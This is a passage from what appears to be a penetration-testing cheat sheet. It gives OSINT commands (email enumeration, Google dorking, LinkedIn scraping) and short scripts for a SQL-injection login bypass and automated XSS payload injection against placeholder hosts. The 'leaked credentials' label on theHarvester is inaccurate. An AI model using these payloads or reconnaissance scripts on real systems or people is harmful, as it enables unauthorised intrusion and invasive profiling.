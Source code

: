 
## **33. OSINT Automation**

### **OSINT Tools**
1. **Email Enumeration with `holehe`:**
   ```bash
   holehe -l emails.txt
   ```

2. **Search Leaked Credentials**:
   ```bash
   theharvester -d target.com -b all
   ```

### **Custom Scripts**
1. **Automate Google Dorking:**
   ```bash
   dorks=("site:example.com inurl:admin" "site:example.com ext:sql")
   for dork in "${dorks[@]}"; do
       query=$(echo $dork | sed 's/ /+/g')
       curl "https://www.google.com/search?q=$query"
   done
   ```

2. **LinkedIn Scraping for Employee Info:**
   ```python
   import requests

   url = "https://www.linkedin.com/search/results/people/"
   headers = {"User-Agent": "Mozilla/5.0"}
   response = requests.get(url, headers=headers)
   print(response.text)
   ```

---

## **34. Advanced Vulnerability Exploitation**

### **Exploitation Scripts**
1. **SQL Injection Exploitation with Python:**
   ```python
   import requests

   payload = "' OR '1'='1"
   url = "https://example.com/login"
   data = {"username": payload, "password": payload}
   response = requests.post(url, data=data)
   print(response.text)
   ```

2. **XSS Automation:**
   ```bash
   echo "<script>alert(1)</script>" > payloads.txt
   cat urls.txt | while read url; do
       curl "$url?q=$(cat payloads.txt)"
   done
   ```

---